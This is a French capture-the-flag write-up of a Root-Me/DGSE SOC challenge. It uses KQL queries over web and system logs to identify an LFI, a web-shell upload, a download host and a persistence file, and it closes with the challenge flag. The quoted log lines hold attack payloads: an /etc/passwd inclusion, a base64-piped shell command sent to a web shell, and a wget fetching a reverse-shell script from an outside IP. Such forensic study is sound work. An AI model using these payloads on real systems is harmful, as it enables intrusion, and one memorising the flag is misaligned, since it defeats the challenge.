




# Mission 2 DGSE x Root-Me (SOC)



# Writeup

On nous met à disposition une plateforme SOC avec des logs Apache et des logs système. Pour constituer le flag, on nous demande les informations suivantes :

### 1. CWE de la première vulnérabilité (logs Apache)

**Type** : Local File Inclusion (LFI)

**Requête KQL/DQL** pour ne garder que les inclusions réussies :
```SQL
request : "*../*etc/*" AND status=200
```
**Résultat :**



**Extrait de log** :
```SQL
@timestamp:00:21:36.588 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:21:36 +0100] "GET /?lang=/etc&page=passwd%2500 HTTP/1.1" ==200==
```

L'attaquant a réussit à inclure le fichier */etc/passwd* --> `CWE-98`

### 2. CWE de la seconde vulnérabilité (logs Apache)

**Type** : File Upload arbitraire

**Requête KQL/DQL** pour détecter les commandes passées en paramètre ***cmd*** :
```SQL
verb : GET and response : 200 and request : "*?cmd=*"
```
**Résultat :**



**Extrait de log** :
```SQL
@timestamp:00:31:40.526 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:31:40 +0100] "GET /admin-page/upload/68af9111db3749e2e8af39e255fd874c/ev1L.php.png?cmd=echo+'cGluZyAtYyAxIGdvb2dsZS5jb20='|base64+-d|sh
```

Un fichier nommé ***ev1L.php.png*** a été uploadé, puis invoqué avec une commande système via le paramètre ***cmd*** →  `CWE-434`

### 3. Adresse IP du serveur (logs systemd)

On peut rechercher **toutes** les occurrences de téléchargement via `wget` grâce à cette requête:
```SQL
message : "wget"
```
**Résultat :**



**Extrait de log** :
```JSON
"message": [ "EXECVE argc=4 a0=\"@opensearch-dashboards-highlighted-field@wget@/opensearch-dashboards-highlighted-field@\" a1=\"http://163.172.67.201:49999/s1mpl3-r3vsh3l.sh\" a2=\"-O\" a3=\"/root/.0x00/pwn3d-by-nullv4stati0n.sh\""]
```

Le script a été téléchargé depuis l'adresse: `163.172.67.201`

### 4. Chemin du fichier de persistance

En reprenant le résultat précédent, on peut extraire le chemin: `/root/.0x00/pwn3d-by-nullv4stati0n.sh`

**Flag:**
```
RM{CWE-98:CWE-434:163.172.67.201:/root/.0x00/pwn3d-by-nullv4stati0n.sh}
```
